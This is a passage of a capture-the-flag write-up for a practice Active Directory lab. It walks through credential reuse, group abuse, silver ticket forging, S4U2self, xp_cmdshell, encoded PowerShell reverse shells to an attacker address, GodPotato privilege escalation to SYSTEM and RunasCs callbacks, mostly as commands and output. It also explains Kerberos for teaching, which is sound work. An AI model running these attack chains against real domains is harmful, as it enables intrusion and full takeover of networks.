LDAP        10.5.10.10      389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:antennae.rv) (signing:None) (channel binding:No TLS cert) 
LDAP        10.5.10.10      389    DC01             [+] antennae.rv\jolene.ong:BoXALrqvqPd3 
MAQ         10.5.10.10      389    DC01             [*] Getting the MachineAccountQuota
MAQ         10.5.10.10      389    DC01             MachineAccountQuota: 10
```

The default value for `MachineAccountQuota` is `10`, which means that any authenticated user can create up to `10` computer accounts in the domain. We can use the `nxc` tool to create a new computer account called `gatari$`:

```
~$ nxc smb dc01.antennae.rv -u 'jolene.ong' -p 'BoXALrqvqPd3' -M add-computer -o NAME="gatari$" PASSWORD='P@ssw0rd'
SMB         10.5.10.10      445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:antennae.rv) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.5.10.10      445    DC01             [+] antennae.rv\jolene.ong:BoXALrqvqPd3 
ADD-COMP... 10.5.10.10      445    DC01             Successfully added the machine account: "gatari$" with Password: "P@ssw0rd"
```

## Abusing GenericAll on Group

This new computer account can then be used to authenticate to the `antennae.rv` domain controller `dc01.antennae.rv`:

```
~$ nxc ldap dc01.antennae.rv -u 'gatari$' -p 'P@ssw0rd'                                                           
LDAP        10.5.10.10      389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:antennae.rv) (signing:None) (channel binding:No TLS cert) 
LDAP        10.5.10.10      389    DC01             [+] antennae.rv\gatari$:P@ssw0rd 
```

With this computer account added, we can now use `jolene.ong` to add `gatari$` to the `senior-developers` group. The [bloodyAD](https://github.com/CravateRouge/bloodyAD) tool can be used for this purpose:

```
~$ bloodyAD --host 'dc01.antennae.rv' -u 'jolene.ong' -p 'BoXALrqvqPd3' add groupMember 'senior-developers' 'gatari$'
[+] gatari$ added to senior-developers
```

With this done, we can now authenticate to the `SSH` service on `sql01.antennae.rv` using the `gatari$` computer account:

```
~$ nxc ssh sql01.antennae.rv -u 'gatari$' -p 'P@ssw0rd'  
SSH         10.5.10.11      22     sql01.antennae.rv [*] SSH-2.0-OpenSSH_for_Windows_9.8 Win32-OpenSSH-GitHub
SSH         10.5.10.11      22     sql01.antennae.rv [+] gatari$:P@ssw0rd  Windows - Shell access!
```

Do note that `WinRM` or `RDP` could have also been used instead of `SSH`:

```
~$ nxc winrm sql01.antennae.rv -u 'gatari$' -p 'P@ssw0rd'
WINRM       10.5.10.11      5985   SQL01            [*] Windows Server 2022 Build 20348 (name:SQL01) (domain:antennae.rv) 
WINRM       10.5.10.11      5985   SQL01            [+] antennae.rv\gatari$:P@ssw0rd (Pwn3d!)

~$ nxc rdp sql01.antennae.rv -u 'gatari$' -p 'P@ssw0rd'  
RDP         10.5.10.11      3389   SQL01            [*] Windows 10 or Windows Server 2016 Build 20348 (name:SQL01) (domain:antennae.rv) (nla:True)
RDP         10.5.10.11      3389   SQL01            [+] antennae.rv\gatari$:P@ssw0rd 
```

We can now connect to the `sql01.antennae.rv` machine and read the `flag2.txt` file:

```
~$ sshpass -p 'P@ssw0rd' ssh 'gatari$'@sql01.antennae.rv

PS C:\> cat flag2.txt
RV{d@ngER0US_4cc3$S_C0n7Rol_1!sts!_6daa59eff6fd00657e9fb802c0078a4c}
```

# Flag 3: Moving Laterally


After obtaining local access to `sql01.antennae.rv`, we can begin enumerating the machine for any interesting files or credentials. After some searching (or running `tree /f /a`), we'll find a file at `C:\Users\Public\test.ps1` that contains credentials for `wei.jie.tan`:

```
PS C:\Users> cat C:\Users\Public\test.ps1
$username = 'wei.jie.tan'
$password = 'klDCzcAiLGc2'
$securePass = ConvertTo-SecureString $password -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential($username, $securePass)
$scriptBlock = {
    $targetFile = 'C:\temp.txt'
    $timestamp  = (Get-Date).ToString('yyyy-MM-dd HH:mm:ss')
    "test => $timestamp" |
        Out-File -FilePath $targetFile -Encoding UTF8 -Append
}

Start-Process -FilePath pwsh -ArgumentList '-NoProfile','-Command',(
    [ScriptBlock]::Create($scriptBlock.ToString())
) -Credential $creds -Wait -WindowStyle Hidden
```

In `BloodHound`, we'll see that `wei.jie.tan` is also a member of the `senior-developers` group - which means that we can use this user to `SSH` into `sql01.antennae.rv` as well.


We can use these credentials to authenticate to the `SSH` service on `sql01.antennae.rv`, and grab the `flag3.txt` file:

```
~$ sshpass -p 'klDCzcAiLGc2' ssh 'wei.jie.tan'@sql01.antennae.rv

PS C:\Users\wei.jie.tan\Desktop> cat flag3.txt
RV{lA7ERAl_m0vemenT_I5_a1SO_cOoL_3c69d6d47771c7d7671a5bf3c058e326}
```

# Flag 4: Historical Scar


After obtaining access to `sql01.antennae.rv`, as `wei.jie.tan`, we can find the path to the user's PowerShell history file by running the following command.

> [https://stackoverflow.com/questions/44104043/how-can-i-see-the-command-history-across-all-powershell-sessions-in-windows-serv](https://stackoverflow.com/questions/44104043/how-can-i-see-the-command-history-across-all-powershell-sessions-in-windows-serv)

```
PS C:\Users\wei.jie.tan\Desktop> (Get-PSReadlineOption).HistorySavePath
C:\Users\wei.jie.tan\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

This file will contain a history of all the PowerShell commands that `wei.jie.tan` has executed. By examining this file, we can find the credentials of `svc_sql`:

```
PS C:\Users\wei.jie.tan\Desktop> cat (Get-PSReadlineOption).HistorySavePath
whoami
cd c:\SQL
sqlcmd -S localhost -Q "SELECT @@VERSION" -b
RV{AUd!T1ng_pS_CAn_8e_d@N6eROUs_e29abbb4bda372844a294da95c0c9218}
sqlcmd -S localhost -U "svc_sql" -P "P@ssw0rd_f0r_SQL-antennae" -Q "SELECT @@VERSION;"
sqlcmd -S localhost -U "svc_sql" -P "P@ssw0rd_f0r_SQL-antennae" -Q "EXEC sp_helpdb;"
Get-Content (Get-PSReadlineOption).HistorySavePath
exit
cd Desktop
ls
cat flag3.txt
cat (Get-PSReadlineOption).HistorySavePath
(Get-PSReadlineOption).HistorySavePath
cat (Get-PSReadlineOption).HistorySavePath
```

Additionally, we can also find the 4th flag in this file.

# Flag 5: Silver



This flag was (as intended) found to be the most challenging, with only 3 participants solving it during the meetup. There are also a few different ways to solve this challenge, and we'll be covering all of them here.

## Path 1: Silver Ticket

Earlier, we found that the `svc_sql` user possess the following SPN: `MSSQLSvc/sql01.antennae.rv`. This means that the user provisions the `MSSQL` service on `sql01.antennae.rv`.

For the sake of demonstration, we can connect to the `MSSQL` service on `sql01.antennae.rv` using any domain user - for example `chloe.lim`:

```
~$ nxc mssql sql01.antennae.rv -u 'chloe.lim' -p 'BZCJsopuOPgH'            
MSSQL       10.5.10.11      1433   SQL01            [*] Windows Server 2022 Build 20348 (name:SQL01) (domain:antennae.rv)
MSSQL       10.5.10.11      1433   SQL01            [+] antennae.rv\chloe.lim:BZCJsopuOPgH 
```

We can also use `mssqlclient.py` from [Impacket](https://github.com/fortra/impacket) to connect to the `MSSQL` service:

```
~$ mssqlclient.py 'chloe.lim':'BZCJsopuOPgH'@sql01.antennae.rv -windows-auth
Impacket v0.13.0.dev0+20250813.95021.3e63dae - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL01): Line 1: Changed database context to 'master'.
[*] INFO(SQL01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2022 RTM (16.0.1000)
[!] Press help for extra shell commands
SQL (antennae\chloe.lim  guest@master)> 
```

The following parts will do an unnecessarily deep-dive into `Kerberos`, if you're already familiar with it or simply don't care, feel free to skip ahead to [#forging-tickets](#forging-tickets)

### Understanding Kerberos

This portion is going to be a mini-deep-dive into how Kerberos works, since I realized that of the 3 participants who solved this challenge, none of them actually understood how it worked. Additionally, this knowledge is useful for understanding Kerberos in general, and can be applied to other scenarios as well.

Earlier we demonstrated connecting to the `MSSQL` service using `chloe.lim`'s credentials. By default, [`NTLM`](https://learn.microsoft.com/en-us/troubleshoot/windows-server/windows-security/ntlm-user-authentication) authentication is used. This can be seen from the source code of `mssqlclient.py`:

> See [NTLMSSP_CHALLENGE](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/801a4681-8809-4be9-ab0d-61dcfe762786) for more details on the `NTLMSSP_CHALLENGE` structure. Additionally, I heavily recommend that you read [this](https://ericesquivel.github.io/posts/kerberos) blog post to have a fundamental understanding of Kerberos.

```python
# https://github.com/fortra/impacket/blob/master/impacket/tds.py#L993
def login(self, database, username, password='', domain='', hashes = None, useWindowsAuth = False):
  [...snip...]
  if useWindowsAuth is True:
    login['OptionFlags2'] |= TDS_INTEGRATED_SECURITY_ON
    auth = ntlm.getNTLMSSPType1('', '', use_ntlmv2=True, version=self.version)
    login['SSPI'] = auth.getData()
  
  if useWindowsAuth is True:
      # Each TDS packet has a header so we extract the NTLMSSP_CHALLENGE from it
      serverChallenge = tds['Data'][3:]

# https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/801a4681-8809-4be9-ab0d-61dcfe762786
```

However, we can force the use of the `Kerberos` authentication protocol instead of `NTLM` by providing the `-k` flag to `mssqlclient.py`:

```
~$ mssqlclient.py 'antennae.rv'/'chloe.lim':'BZCJsopuOPgH'@SQL01.antennae.rv -k        
Impacket v0.13.0.dev0+20250813.95021.3e63dae - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[-] CCache file is not found. Skipping...
[-] CCache file is not found. Skipping...
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL01): Line 1: Changed database context to 'master'.
[*] INFO(SQL01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2022 RTM (16.0.1000)
[!] Press help for extra shell commands
SQL (antennae\chloe.lim  guest@master)> 
```

While performing this authentication, we can inspect the network traffic and find the corresponding `TGS-REQ` and `TGS-REP` packets. These are part of the `TGS` exchange in the `Kerberos` protocol, where the client (us!) requests for a service ticket to access a specific service (in this case, the `MSSQL` service on `sql01.antennae.rv`).


In the `TGS-REQ` packet, we find that we are requesting a service ticket for the `MSSQLSvc/sql01.antennae.rv` SPN:


> For a detailed explanation on the `sname-string` structure, and how it is parsed into the `MSSQLSvc/sql01.antennae.rv` SPN, please refer to [our public preview](https://github.com/ASYNC-Security/W200-Preview-Public?tab=readme-ov-file#service-principal-name-who) which navigates the [RFC 4120, Section 5.4.1](https://datatracker.ietf.org/doc/html/rfc4120#section-5.4.1) - `KDC-REQ` and `KDC-REQ-BODY` structures.

As you'd expect, the `TGS-REP` packet contains the encrypted service ticket that we requested:


As per [RFC 4120, Section 5.3](https://datatracker.ietf.org/doc/html/rfc4120#section-5.3), the `ticket` structure returned in the `KDC-REP` message is defined as follows:

```
Ticket          ::= [APPLICATION 1] SEQUENCE {
        tkt-vno         [0] INTEGER (5),
        realm           [1] Realm,
        sname           [2] PrincipalName,
        enc-part        [3] EncryptedData -- EncTicketPart
}
```

Where the `enc-part` contains an `EncryptedData` structure, given by [RFC 4120, Appendix A - ASN.1](https://datatracker.ietf.org/doc/html/rfc4120#appendix-A):

```
EncryptedData   ::= SEQUENCE {
        etype   [0] Int32 -- EncryptionType --,
        kvno    [1] UInt32 OPTIONAL,
        cipher  [2] OCTET STRING -- ciphertext
}
```

The `cipher` field contains the actual information about the authenticating client, encrypted with the service account's password - in this case, that service account is `svc_sql`. This encrypted portion of the ticket contains information about the client (us!), in a proprietary format known as the [MS-PAC](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/166d8064-c863-41e1-9c23-edaaa5f36962) structure. 

> Since this part is encrypted with the service account's password, the user cannot tamper with it! This is the base of the security of the `Kerberos` protocol, where services "trust" the `KDC` to issue valid tickets.

The `MS-PAC` (referred to as `PAC` from hereon) structure contains a lot of information about the client that the service will simply trust, and use to authorize the client. You can think of this structure as a glorified [JWT](https://www.geeksforgeeks.org/web-tech/json-web-token-jwt/) token.

### Fetching the PAC

Since we have the credentials of `svc_sql`, we can decrypt the `ticket->enc-part->cipher` field, and extract the `PAC` structure. This can be done using [Impacket](https://github.com/fortra/impacket), which conveniently exposes an interface to parse a `MS-PAC` structure in [pac.py](https://github.com/fortra/impacket/blob/master/impacket/krb5/pac.py).

```python
try:
  cipherText = decodedTicket['ticket']['enc-part']['cipher']
  newCipher = _enctype_table[int(etype)]
  plainText = newCipher.decrypt(key, 2, cipherText)
  [...snip...]
  encTicketPart = decoder.decode(plainText, asn1Spec=EncTicketPart())[0]
  sessionKey = Key(encTicketPart['key']['keytype'], bytes(encTicketPart['key']['keyvalue']))
  adIfRelevant = decoder.decode(encTicketPart['authorization-data'][0]['ad-data'], asn1Spec=AD_IF_RELEVANT())[0]
  # parsing every PAC
  parsed_pac = parse_pac(pacType, args)
  logging.info("%-30s:" % "Decoding credential[%d]['ticket']['enc-part']" % cred_number)
  # One section per PAC
  for element_type in parsed_pac:
          element_type_name = list(element_type.keys())[0]
          logging.info("  %-28s" % element_type_name)
  
  # ... do stuff with the pac info...
```

[describeTicket.py](https://github.com/fortra/impacket/blob/master/examples/describeTicket.py) uses this interface to decrypt the `ticket->enc-part->cipher` field, and parse the `PAC` structure given the service account's `NTLM` hash. Firstly, we can convert the plaintext password of `svc_sql` to its corresponding `NTLM` hash easily with some python:

```
~$ python3        

Python 3.13.5 (main, Jun 25 2025, 18:55:22) [GCC 14.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import hashlib
>>> import binascii
>>> pw = "P@ssw0rd_f0r_SQL-antennae"
>>> binascii.hexlify(hashlib.new('md4', pw.encode('utf-16le')).digest()).decode()

'dafede3a0d35ddb28147bd418e4cd53b'
```

We can verify that this is indeed the correct `NTLM` hash by using it to authenticate to the domain controller using [pass-the-hash](https://www.crowdstrike.com/en-us/cybersecurity-101/cyberattacks/pass-the-hash-attack/):

```
~$ nxc ldap dc01.antennae.rv -u 'svc_sql' -H 'dafede3a0d35ddb28147bd418e4cd53b'
LDAP        10.5.10.10      389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:antennae.rv) (signing:None) (channel binding:No TLS cert) 
LDAP        10.5.10.10      389    DC01             [+] antennae.rv\svc_sql:dafede3a0d35ddb28147bd418e4cd53b 
```

Next, we can request for a service ticket for the `MSSQLSvc/sql01.antennae.rv` SPN using `kvno` like we did in [#roasting-the-hard-way](#roasting-the-hard-way).

```
~$ echo 'BZCJsopuOPgH' | kinit 'chloe.lim'@ANTENNAE.RV
Password for chloe.lim@ANTENNAE.RV: 

~$ kvno 'MSSQLSvc/sql01.antennae.rv'
MSSQLSvc/sql01.antennae.rv@ANTENNAE.RV: kvno = 2

~$ klist                            
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: chloe.lim@ANTENNAE.RV

Valid starting       Expires              Service principal
09/07/2025 11:19:28  09/07/2025 21:19:28  krbtgt/ANTENNAE.RV@ANTENNAE.RV
        renew until 09/08/2025 11:19:28
09/07/2025 11:19:38  09/07/2025 21:19:28  MSSQLSvc/sql01.antennae.rv@ANTENNAE.RV
        renew until 09/08/2025 11:19:28
```

> All Kerberos tickets are stored in `/tmp/krb5cc_$(id -u)` by default.

We can now proceed with decrypting the service ticket, and parsing the `PAC` structure using `describeTicket.py`:

```
~$ describeTicket.py /tmp/krb5cc_1000 --rc4 'dafede3a0d35ddb28147bd418e4cd53b'
Impacket v0.13.0.dev0+20250813.95021.3e63dae - Copyright Fortra, LLC and its affiliated companies 

[*] Number of credentials in cache: 2

[...snip...]

[*]   LoginInfo                   
[...snip...]
[*]     Account Name              : chloe.lim
[*]     Groups (decoded)          : (513) Domain Users
[*]     User Flags                : (32) LOGON_EXTRA_SIDS
[*]     User Session Key          : 00000000000000000000000000000000
[*]     Logon Server              : DC01
[*]     Logon Domain Name         : antennae
[*]     Logon Domain SID          : S-1-5-21-1843653573-2831615454-1469364877
[*]     User Account Control      : (16) USER_NORMAL_ACCOUNT
[*]     Extra SID Count           : 1
[*]     Extra SIDs                : S-1-18-1 Authentication authority asserted identity (SE_GROUP_MANDATORY, SE_GROUP_ENABLED_BY_DEFAULT, SE_GROUP_ENABLED)
[*]     Resource Group Domain SID :
[*]     Resource Group Count      : 0
[*]     Resource Group Ids        : 
[*]     LMKey                     : 0000000000000000
[*]     SubAuthStatus             : 0
[*]     Reserved3                 : 0
```

For brevity, I've snipped out all of the other PAC sections, except for the [PAC_LOGON_INFO](https://learn.microsoft.com/en-us/previous-versions/aa302203(v=msdn.10)?redirectedfrom=MSDN#pac-credential-information-pac_logon_info) structure which contains: `the credential information for the client of the Kerberos ticket.`.

### Forging Tickets

Since we have the credentials of `svc_sql`, we were able to decrypt a service ticket issued to `chloe.lim` and parse the `PAC` structure. With this knowledge, we can reverse the process and artificially forge a `PAC` structure for any user we want, encrypt it with `svc_sql`'s password, and create a valid service ticket for that user. This is known as a [Silver Ticket Attack](https://www.crowdstrike.com/en-us/cybersecurity-101/cyberattacks/silver-ticket-attack/).

With this forged ticket, we can access the `MSSQL` service on `sql01.antennae.rv` as any user we want - including privileged users, like `Administrator`. We can forge this ticket using [ticketer.py](https://github.com/fortra/impacket/blob/master/examples/ticketer.py). The following information is required to forge a ticket, most of which can be grabbed from `BloodHound`:

1. `-spn`: The SPN of the service we want to access. In this case, it's `MSSQLSvc/sql01.antennae.rv`.
2. `-domain`: The domain name, which is `antennae.rv`.
3. `-domain-sid`: The domain SID, which can be found in `BloodHound` or by running `whoami /user` on any domain-joined machine. In this case, it's `S-1-5-21-1843653573-2831615454-1469364877`.
4. `-nthash`: The `NTLM` hash of the service account, which we have already computed to be `dafede3a0d35ddb28147bd418e4cd53b`.

With this information, we can forge a ticket for the `Administrator` user:

```
~$ ticketer.py -spn 'MSSQLSvc/sql01.antennae.rv' -domain 'antennae.rv' -domain-sid 'S-1-5-21-1843653573-2831615454-1469364877' -nthash 'dafede3a0d35ddb28147bd418e4cd53b' Administrator               
Impacket v0.13.0.dev0+20250813.95021.3e63dae - Copyright Fortra, LLC and its affiliated companies 

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for antennae.rv/Administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Saving ticket in Administrator.ccache
```

We can now use this forged ticket to authenticate to the `MSSQL` service on `sql01.antennae.rv` as `Administrator`:

```
~$ export KRB5CCNAME=Administrator.ccache
~$ mssqlclient.py -k -no-pass sql01.antennae.rv                                       
Impacket v0.13.0.dev0+20250813.95021.3e63dae - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL01): Line 1: Changed database context to 'master'.
[*] INFO(SQL01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2022 RTM (16.0.1000)
[!] Press help for extra shell commands
SQL (ANTENNAE.RV\Administrator  dbo@master)> 
```

If we decrypt the ticket using `describeTicket.py`, and inspect the `PAC` - we'll find that the `PAC_LOGON_INFO` structure now contains information about the `Administrator` user:

```
~$ describeTicket.py Administrator.ccache --rc4 'dafede3a0d35ddb28147bd418e4cd53b'
Impacket v0.13.0.dev0+20250813.95021.3e63dae - Copyright Fortra, LLC and its affiliated companies 

[*] Number of credentials in cache: 1

[...snip...]

[*] Decoding unencrypted data in credential[0]['ticket']:
[*]   Service Name                : MSSQLSvc/sql01.antennae.rv
[*]   Service Realm               : ANTENNAE.RV
[*]   Encryption type             : rc4_hmac (etype 23)
[*] Decoding credential[0]['ticket']['enc-part']:
[*]   LoginInfo                   
[...snip...]
[*]     Account Name              : Administrator
[*]     Logon Count               : 500
[*]     Bad Password Count        : 0
[*]     User RID                  : 500
[*]     Group RID                 : 513
[*]     Group Count               : 5
[*]     Groups                    : 513, 512, 520, 518, 519
[*]     Groups (decoded)          : (513) Domain Users
[*]                                 (512) Domain Admins
[*]                                 (520) Group Policy Creator Owners
[*]                                 (518) Schema Admins
[*]                                 (519) Enterprise Admins
[*]     User Flags                : (0) 
[*]     User Session Key          : 00000000000000000000000000000000
[*]     Logon Server              : 
[*]     Logon Domain Name         : ANTENNAE.RV
[*]     Logon Domain SID          : S-1-5-21-1843653573-2831615454-1469364877
[*]     User Account Control      : (528) USER_NORMAL_ACCOUNT, USER_DONT_EXPIRE_PASSWORD
[*]     Extra SID Count           : 0
[*]     Extra SIDs                :
[*]     Resource Group Domain SID :
[*]     Resource Group Count      : 0
[*]     Resource Group Ids        : 
[*]     LMKey                     : 0000000000000000
[*]     SubAuthStatus             : 0
[*]     Reserved3                 : 0
```
### Accessing MSSQL as Administrator

As we demonstrated earlier, we can now access the `MSSQL` service on `sql01.antennae.rv` as `Administrator`. From here, we can enable the [xp_cmdshell](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver17) stored procedure, which allows us to execute arbitrary commands on the underlying operating system.

> This is disabled by default for security reasons, but since we are `Administrator`, we can enable it.

```
SQL (ANTENNAE.RV\Administrator  dbo@master)> EXEC sp_configure 'show advanced options', 1;
INFO(SQL01): Line 196: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL (ANTENNAE.RV\Administrator  dbo@master)> RECONFIGURE;
SQL (ANTENNAE.RV\Administrator  dbo@master)> EXEC sp_configure 'xp_cmdshell', 1;
INFO(SQL01): Line 196: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL (ANTENNAE.RV\Administrator  dbo@master)> RECONFIGURE;
```

Now, we can use the stored procedure to execute commands on `sql01.antennae.rv` as `svc_sql`:

```
SQL (ANTENNAE.RV\Administrator  dbo@master)> xp_cmdshell whoami
output             
----------------   
antennae\svc_sql   

NULL 
```

### Local Privilege Escalation

From this, we can obtain a reverse shell on `sql01.antennae.rv` using a powershell one-liner obtained from [revshells.com](https://www.revshells.com/):

```
SQL (ANTENNAE.RV\Administrator  dbo@master)> xp_cmdshell powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8[....snip....]uAEMAbABvAHMAZQAoACkA
```

This reverse shell points to our attacking machine, on port `8443`:

```
~$ nc -lnvp 8443
listening on [any] 8443 ...
connect to [198.51.100.5] from (UNKNOWN) [10.5.10.11] 59996

PS C:\Windows\system32> whoami
antennae\svc_sql
PS C:\Windows\system32> 
```

Local service accounts typically have some level of elevated privileges on the machine, this is often a requirement to provision services. In this case, we'll see that the `svc_sql` has the `SeImpersonatePrivilege` privilege:

```
PS C:\Windows\system32> whoami /priv

PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

The [SeImpersonatePrivilege](https://www.plesk.com/kb/support/microsoft-windows-seimpersonateprivilege-local-privilege-escalation/) privilege is a well-documented local privilege escalation vector, and can be exploited with various [Potato](https://ohpe.it/juicy-potato/) variants. In this case, we can use [GodPotato](https://github.com/BeichenDream/GodPotato) to obtain a reverse shell as `NT AUTHORITY\SYSTEM`:

```
PS C:\windows\tasks> .\GodPotato.exe -cmd "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYg[....snip....AEMAbABvAHMAZQAoACkA"
```

Similar to before, this reverse shell points to our attacking machine, on port `9443`:

```
~$ nc -lnvp 8443                                                               
listening on [any] 8443 ...
connect to [198.51.100.5] from (UNKNOWN) [10.5.10.11] 60010

PS C:\windows\tasks> whoami
nt authority\system
```

And finally, we can grab the `flag5.txt` file:

```
PS C:\Windows\Tasks> cat C:\Users\Administrator\Desktop\flag5.txt
RV{s1LVeR_tICk3Ts_aRe_oFteN_0V3Rl0oK3d_fOR_PRIv!13ge_3ScALaTION_:)_87b96b7fefeaa679845950e6042e2a8c}
```

## Path 2: S4u2self

An alternative to forging an arbitrary service ticket is to use the [S4u2self](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/02636893-7a1f-4357-af9a-b672e3e3de13) extension of the `Kerberos` protocol. This extension `allows a service to obtain a service ticket to itself on behalf of a user.`.

This allows the `svc_sql` user to request for a service ticket to the `MSSQLSvc/sql01.antennae.rv` SPN on behalf of any user in the domain - including privileged users like `Administrator`. This is possible because `svc_sql` has the `MSSQLSvc/sql01.antennae.rv` SPN registered to it.

### S4u2self Extension

We can use `getST.py` to request for a service ticket to the `MSSQLSvc/sql01.antennae.rv` SPN on behalf of `Administrator`:

```
~$ getST.py -self -altservice 'MSSQLSvc/sql01.antennae.rv' -impersonate 'Administrator' 'antennae.rv'/'svc_sql':'P@ssw0rd_f0r_SQL-antennae'
Impacket v0.13.0.dev0+20250813.95021.3e63dae - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Changing service from svc_sql@ANTENNAE.RV to MSSQLSvc/sql01.antennae.rv@ANTENNAE.RV
[*] Saving ticket in Administrator@MSSQLSvc_sql01.antennae.rv@ANTENNAE.RV.ccache
```

### Accessing MSSQL as Administrator

As we did before, we can use this `s4u` ticket to authenticate to the `MSSQL` service on `sql01.antennae.rv` as `Administrator`:

```
~$ export KRB5CCNAME='Administrator@MSSQLSvc_sql01.antennae.rv@ANTENNAE.RV.ccache'
~$ mssqlclient.py -k -no-pass sql01.antennae.rv
Impacket v0.13.0.dev0+20250813.95021.3e63dae - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL01): Line 1: Changed database context to 'master'.
[*] INFO(SQL01): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2022 RTM (16.0.1000)
[!] Press help for extra shell commands
SQL (antennae\Administrator  dbo@master)> 
```

From here, we can follow the same steps as before to enable `xp_cmdshell`, obtain a reverse shell as `svc_sql`, and finally escalate to `NT AUTHORITY\SYSTEM` using `GodPotato`.

## Path 3: RunAs

Another, cleaner, alternative is to simply spawn a process as the `svc_sql` user from the existing local session we have as `wei.jie.tan`. This can be done [RunasCs](https://github.com/antonioCoco/RunasCs), a C# implementation of the `runas` command that supports passing in plaintext passwords.

```
PS C:\windows\tasks> .\RunasCs.exe 'svc_sql' P@ssw0rd_f0r_SQL-antennae powershell.exe -d antennae.rv -r 198.51.100.5:8443
[*] Warning: The logon for user 'svc_sql' is limited. Use the flag combination --bypass-uac and --logon-type '5' to obtain a more privileged token.

[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-9138862$\Default
[+] Async process 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' with pid 4424 created in background.
```

### UAC Bypass via computerdefaults.exe

However, you may find that the obtained reverse shell is limited by [User Account Control (UAC)](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/user-account-control/how-it-works) and as a result - lacks the `SeImpersonatePrivilege` privilege:

```
PS C:\Windows\system32> whoami /all
whoami /all

USER INFORMATION
----------------

User Name        SID                                           
================ ==============================================
antennae\svc_sql S-1-5-21-1843653573-2831615454-1469364877-1110


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes                                        
========================================== ================ ============================================== ==================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4                                        Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                              Well-known group S-1-2-1                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
antennae\service-accounts                  Group            S-1-5-21-1843653573-2831615454-1469364877-1125 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1                                       Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192                                                                                      


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.
```

This can be simply bypassed with any of the `UAC` bypass methods, for example using `computerdefaults.exe`. Where `C:\Windows\Tasks\revshell.exe` is a reverse shell generated with [msfvenom](https://www.offsec.com/metasploit-unleashed/msfvenom/).

```
